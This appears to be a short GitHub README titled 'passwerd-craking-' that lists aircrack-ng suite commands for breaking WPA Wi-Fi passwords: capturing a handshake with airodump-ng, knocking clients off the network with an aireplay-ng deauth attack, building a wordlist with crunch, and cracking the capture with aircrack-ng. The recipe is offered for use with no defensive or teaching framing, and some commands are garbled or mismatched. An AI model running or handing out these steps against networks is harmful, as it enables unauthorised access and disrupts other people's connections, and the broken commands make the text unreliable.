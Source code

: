 # passwerd-craking-.
#Capturing Handshake airodump-ng start wlan0 airodump-ng --bssid__--channel __ --write wpa_handshake wlan0 aireplay-ng --deauth 13 -a __ -c___ wlan0  #Preparing wordlist crunch 6 8 abc12 -o pass.txt cat pass.txt # Actual Cracking with wordlist aircrack-ng wpa_abc-01.cap -w pass.txt
